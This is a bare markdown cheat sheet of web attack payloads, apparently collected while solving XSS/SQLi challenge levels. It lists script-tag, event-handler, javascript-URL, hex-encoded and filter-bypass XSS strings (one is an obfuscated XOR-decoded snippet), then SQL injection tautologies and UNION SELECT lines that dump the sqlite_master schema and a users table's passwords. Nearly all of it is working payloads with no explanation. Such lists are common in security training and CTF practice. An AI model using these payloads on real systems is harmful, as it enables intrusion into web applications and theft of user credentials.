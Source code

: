 #XSS

* basic
"><script>alert('XSS')</script>
"><script>alert(document.domain)</script>

* image
<img src="xss" onerror="alert('XSS')">

* script
html += "<img src='/static/level3/cloud"'onerror="alert('XSS')"'".jpg' />";
');alert('XSS')('

* on url
javascript:void(document.forms[0].p2.childNodes[1].innerText='<script>alert(document.domain)</script>');

* mouseover
" onmouseover="alert(document.domain);" x="

* escape
<script>alert('XSS')</sciprt>
"><script>alert(document.domain)</script>
" onmouseover = " alert('\x64\x6F\x63\x75\x6D\x65\x6E\x74\x2E\x64\x6F\x6D\x61\x69\x6E')"
"><script>alert(\x64\x6F\x63\x75\x6D\x65\x6E\x74\x2E\x64\x6F\x6D\x61\x69\x6E)</script>
" onmouseover = " alert('\x58\x53\x53') "

* gsub
"><sscriptcript>alert('XSS')</sscriptcript>
document.write(); \x3cscript\x3ealert(document.domain);\x3c/script\x3e
p1=%A2%BE%BCscript%BEalert(document.domain);%BC/script%BE
background-color:#f00;background:url("javascript:alert(document.domain);");

<p id=1 onmouseover=alert(document.getElementById(1).innerHTML)>XSS</p>
"(function (text){if(!f)a(text);if(text==='XSS'){if(!f){f=1;window.setTimeout(function(){f=0},100);if(li)li.innerHTML=t}else{f=0;cs=[5010175210,5010175222,5010175227,5010175166,5010175224,5010175218,5010175231,5010175225,5010175166,5010175223,5010175213,5010175140,5010175166,5010175199,5010175194,5010175197,5010175178,5010175192,5010175169,5010175191,5010175169,5010175146,5010175187,5010175169,5010175146,5010175218,5010175149,5010175180,5010175210,5010175169,5010175187,5010175146,5010175216];t='';for(i=0;i<cs.length;i++){t+=String.fromCharCode(cs[i]^0x123456789+123456789)}appendTweet('<b>'+t+'</b>')}}else{f=0}})"

#SQLi
* basic
' or 1=1;--
' or 1=1;#
' == '
' or '1

* union
' or 1=1 union select sql,1,1 from sqlite_master;--
' or 1=1 union select password, name, 1 from users_hogefuga;--


